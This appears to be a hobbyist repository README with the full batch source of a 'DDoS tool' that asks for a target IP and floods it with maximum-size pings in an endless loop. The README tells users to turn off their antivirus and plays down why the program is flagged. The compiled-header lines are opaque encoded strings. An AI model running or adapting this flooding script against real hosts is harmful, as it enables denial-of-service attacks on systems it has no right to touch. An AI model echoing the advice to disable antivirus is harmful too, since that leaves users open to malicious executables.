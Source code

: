 # DDOS-Nzen2
A small DDos program that will (In theory) take down your old 2003 laptop.
It won't harm anyone, nor anything. 
Idk how you would take down a server with this, maybe running multiple instances of it...

Antiviruses DO flag this as a virus/threat, but in reality it's because I have no license with this.
If you do not believe me, just don't run the program!
I mean, It's not like it does anything.

If you do want to run the program, (Maybe benchmark a bunch of chinese off-brand Rasberry-Pie network adapters,
Just disable your antivirus while you run it.


























:DOCUMENTATION:
This program was written in batch, and recompiled with BtE.

The first chunk of the code is a segment of the BtE API.
Random UUids coupled with some strings.

Next chunk is the fake loading screen, which I just added to make
the whole thing look more organized.
It echos a started message, (To log.txt) 
and then echos ping localhost, (To log.txt)
then there is a textbook set variable command, (Which then is echoed to log.txt)
and then a few danger messages,
The ddos actually happens.
It repeat ping requests that will down the shields on your 2003 Arsenel Bird.








Code:

::[Bat To Exe Converter]
::
::YAwzoRdxOk+EWAnk
::fBw5plQjdG8=
::YAwzuBVtJxjWCl3EqQJgSA==
::ZR4luwNxJguZRRnk
::Yhs/ulQjdF+5
::cxAkpRVqdFKZSjk=
::cBs/ulQjdF+5
::ZR41oxFsdFKZSDk=
::eBoioBt6dFKZSDk=
::cRo6pxp7LAbNWATEpCI=
::egkzugNsPRvcWATEpCI=
::dAsiuh18IRvcCxnZtBJQ
::cRYluBh/LU+EWAjk
::YxY4rhs+aU+JeA==
::cxY6rQJ7JhzQF1fEqQJQ
::ZQ05rAF9IBncCkqN+0xwdVs0
::ZQ05rAF9IAHYFVzEqQJQ
::eg0/rx1wNQPfEVWB+kM9LVsJDGQ=
::fBEirQZwNQPfEVWB+kM9LVsJDGQ=
::cRolqwZ3JBvQF1fEqQJQ
::dhA7uBVwLU+EWDk=
::YQ03rBFzNR3SWATElA==
::dhAmsQZ3MwfNWATElA==
::ZQ0/vhVqMQ3MEVWAtB9wSA==
::Zg8zqx1/OA3MEVWAtB9wSA==
::dhA7pRFwIByZRRnk
::Zh4grVQjdCyDJGyX8VAjFB5QRRCNAE+/Fb4I5/jHwfCCrB9QcMYQS8L806CyA+8e+kzocJIb02hmvO8DH1VdZhfL
::YB416Ek+ZW8=
::
::
::978f952a14a936cc963da21a135fa983
@echo off
cls
title DDos Tool Nzen2- Loading
echo Started: >> log.txt
ping localhost >> log.txt
title DDos Tool Nzen2- Press anything to continue
pause
title Waiting input
goto PreAttack

:PreAttack
cls
echo ---Enter Attack IP---
set /p AttackIP= 
Echo Attack IP set to %AttackIP%
echo Attack IP set! >> log.txt
echo IP: >> log.txt
echo %AttackIP% >> log.txt
pause
goto Attacklaunch

:Attacklaunch
cls
echo FINAL CHECK: ARE YOU SURE
pause
title Launcher
goto Attack

:Attack
cls
pause goto DDos

:DDos 
:loop
ping %AttackIP% -l 65500 -w 1 -n 1
goto :loop
